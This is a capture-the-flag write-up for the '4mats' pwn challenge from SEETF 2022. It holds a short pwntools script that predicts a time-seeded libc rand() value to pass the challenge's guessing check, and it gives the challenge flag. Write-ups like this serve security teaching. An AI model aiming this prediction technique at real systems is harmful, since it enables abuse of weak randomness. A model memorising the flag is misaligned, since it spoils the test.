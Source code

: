 ```yaml
---
name: 4mats (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for 4mats (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 4mats

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=1199 "Social Engineering Experts CTF 2022: 4mats")

## Description

> Lets get to know each other

## Solution

```py
from pwn import *
from time import time
from ctypes import CDLL

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Lib-C for rand()
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Create process (level used to reduce noise)
io = process(level='error')  # Local
# io = remote('fun.chall.seetf.sg', 50001)  # Remote

io.sendlineafter(b':', b'crypto')  # Submit name

io.sendlineafter(b'2. Do I know you?', b'1')  # Guess value

libc.srand(int(time()))  # Call srand() with current time as seed
guess = libc.rand() % 1000000  # Predict computers turn

io.sendlineafter(b'Guess my favourite number!', str(guess).encode())  # Submit guess

io.recvlines(2)
info(io.recv().decode())  # Print flag
```

Flag: `SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}`
